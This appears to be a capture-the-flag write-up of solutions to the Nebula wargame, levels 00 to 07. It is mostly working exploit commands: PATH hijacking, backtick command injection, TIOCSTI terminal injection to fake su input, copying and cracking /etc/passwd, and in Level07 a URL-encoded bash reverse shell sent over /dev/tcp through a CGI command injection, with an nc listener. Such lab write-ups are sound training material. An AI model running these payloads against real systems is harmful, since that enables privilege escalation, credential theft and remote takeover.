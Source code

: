 
## Challenge link

    https://exploit-exercises.com/nebula/

## Level 00

    $ find / -perm -4000 -user flag00 2> /dev/null

## Level 01

    $ echo -e '#!/bin/bash\n/bin/sh -c getflag' > ./echo; chmod +x ./echo; PATH=./:"$PATH" /home/flag01/flag01

## Level 02

    $ USER='`/bin/sh -c getflag`' /home/flag02/flag02

## Level 03

```
#!/bin/bash

echo 'getflag > output2' > /home/flag03/writable.d/mz
echo 'Please wait while cron execute your command ...'
while [ ! -f /home/flag03/output2 ]; do sleep 1; done
cat /home/flag03/output2
```

## Level 04

My comments:

```
# this won't work (cause su won't take password from stdin)
# echo `DST=/home/flag04; ln -s $DST/token lnk; $DST/flag04 ./lnk` | su -

# this also won't work on Ubuntu (why?)
# echo `DST=/home/flag04; ln -s $DST/token lnk; $DST/flag04 ./lnk` | sudo -u flag04 -S -s getflag

# so to automate it I had to use trick that I've learned from http://vladz.devzero.fr/002_su-stdin.php
```

My solution:

    $ echo -e '#include <stdio.h>\n #include <sys/ioctl.h>\n #include <string.h>\n main(int argc, char *argv[]) { char c[512]; int i; sprintf(c, "%s\\n", argv[1]); for(i=0; i<strlen(c); ++i) ioctl(0,TIOCSTI,c+i);}' | gcc -xc -; (sleep 1; ./a.out `DST=/home/flag04; ln -s $DST/token lnk; $DST/flag04 ./lnk`;) & su flag04 -c getflag -

## Level05

    $ cp /home/flag05/.backup/backup-19072011.tgz a.tgz;tar xzf a.tgz; ssh flag05@localhost getflag; rm a.tgz

## Level06

(remote exploit)

This time one need to run it from external machine (not nebula machine) and provide IP address of nebula machine in IP variable (for me it is 192.168.1.236).

My notes:

```

IP=$1

read -r -d '' SRC <<-'EOF'
#include <stdio.h>
#include <sys/ioctl.h>
#include <string.h>

main(int argc, char *argv[]) 
{ 
	char c[512]; 
	int i; 
	sprintf(c, "%s\n", argv[1]); 
	for(i=0; i<strlen(c); ++i) 
		ioctl(0,TIOCSTI,c+i);

	return 0;
}
EOF

echo "$SRC" | gcc -xc -
eval { sleep 1; ./a.out user1; } & su user1
#& scp level06@${IP}:/etc/passwd ./
```

Solution:

$ IP=192.168.1.236; echo -e '#include <stdio.h>\n #include <sys/ioctl.h>\n #include <string.h>\n main(int argc, char *argv[]) { char c[512]; int i; sprintf(c, "%s\\n", argv[1]); for(i=0; i<strlen(c); ++i) ioctl(0,TIOCSTI,c+i);}' | gcc -xc -; (sleep 1; ./a.out level06;) & scp level06@$IP:/etc/passwd ./; (sleep 1; ./a.out `john ./passwd --show | awk -F: '{print $2}'`;) & ssh flag06@$IP

## Level07

(remote exploit)


```
#!/bin/bash

# exploit usage: launch exploit from external machine as $1 provide IP to nebula machine

# standard payload to do the level (boring)
PAYLOAD=getflag

# more interesting approch (gives you reverse shell)
IP=$1
REVERSE_IP=$2
REVERSE_PORT=$3

#bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
PAYLOAD2=bash%20%2Di%20%3E%26%20/dev/tcp/${REVERSE_IP}/${REVERSE_PORT}%200%3E%261

if [ -z "$1" ]
then
	echo "Usage: `basename $0` <nebula-machine-ip-address> <reverse-ip> <reverse-port>"
	exit 1
fi

(sleep 1; curl http://${IP}:7007/index.cgi?Host=localhost%3B"${PAYLOAD2}") &
nc -l -p 2222 -vvv
```

